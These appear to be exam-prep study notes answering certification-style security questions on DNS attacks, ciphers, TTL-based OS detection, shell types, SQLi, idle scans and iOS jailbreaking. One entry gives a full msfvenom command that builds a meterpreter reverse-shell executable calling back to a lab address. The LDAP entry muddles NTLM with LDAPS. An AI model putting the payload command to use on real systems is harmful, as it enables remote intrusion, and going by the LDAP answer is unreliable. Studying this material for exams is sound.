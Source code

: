 ## Proxy Tool for Manual Testing
**Burp Suite** is ideal for working as a proxy, saving requests/responses, and manual parameter/header testing.

---

## First Step of DNS Cache Poisoning
Querying a nameserver is the first move to gather DNS information.

---

## Protocol to Secure LDAP
Use **NTLM** (with a port, usually TCP 389/636 if encrypted), but **LDAPS (LDAP over SSL)** is more typical.

---

## LTE Attack Type
The attack installing a fake tower is called an **aLTEr attack**.

---

## Symmetric Cipher with 128-bit Block and 256-bit Key
**Twofish** supports 128-bit block size and up to 256-bit key size.

---

## Block Size vs Key Size
- **Block Size:** Fixed chunk of data processed (e.g., 128 bits at a time).
- **Key Size:** Length of encryption key (affects security strength).

---

## Solving Plaintext Transmission
Switch to **HTTPS** (HTTP over SSL/TLS) to encrypt usernames/passwords.

---

## OS Detection with TTL Value
TTL of **128** usually indicates a **Windows** operating system.

---

## Whois + IP Info Retrieval
The hacker used **ARIN** to retrieve network range and topology data.

---

## Google Advanced Operator for Domain-Restricted Search
Use **`site:`** operator (e.g., `site:example.com`).

---

## Security Policy for Dial-out Modems
Check the **Remote-access policy** to verify permissions.

---

## Correct msfvenom Reverse Shell Command
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.12 LPORT=8888 -f exe > shell.exe
```

---

## Reverse Shell vs Bind Shell
- **Reverse Shell:** Attacker connects back (firewall friendly).
- **Bind Shell:** Attacker connects directly (requires open port).

---

## Reverse or Bind - Which Is Mostly Used?
**Reverse Shell** is mostly used because it's firewall/NAT-friendly.

---

## Bank URL Redirection Attack
The scenario describes a **DNS Hijacking** attack.

---

## CVSS v3.0 Basic Score 4.0
Severity Level: **Medium**.

---

## Difference: Pharming vs Phishing
- **Phishing:** Fake link via email/social engineering.
- **Pharming:** Redirecting by modifying DNS/hosts file.

---

## Virus Detection via Virtual Execution
**Code Emulation** is used to detect viruses by simulating them in a VM.

---

## Bluetooth Hacking: Theft of Information
**Bluesnarfing** involves stealing information via Bluetooth.

---

## Cyber Kill Chain Stage: Preparing Payload
John is at the **Weaponization** stage.

---

## SQLi Type using DNS Requests
**Out-of-band SQLi** leverages DNS to pass data to attackers.

---

## Firewall Evasion Scanning with Zombie
Technique is **Idle Scanning** (uses low-activity systems).

---

## Ping Command Flag Hidden Under "*"
The hidden flag is **`-n`** (Windows style for specifying number of Echo Requests).

---

## Cloud Attack on MSPs
Attack type is a **Cloud Hopper Attack**.

---

## IDS Evasion with Unicode Packets
Technique used: **Obfuscating**.

---

## iOS Jailbreaking Technique with Boot Patch
**Untethered Jailbreaking** — remains jailbroken after reboot without computer connection.

---

## iOS Jailbreaking Techniques Overview
- **Tethered:** Needs PC every reboot.
- **Semi-tethered:** Boots but no jailbreak functionality until PC reconnection.
- **Semi-untethered:** Boots normally; re-run app to jailbreak without PC.
- **Untethered:** Fully jailbroken even after reboot (no PC needed).

---

## DNS Tunneling Tool NSTX Port
Run NSTX over **Port 53** (standard DNS port).

---
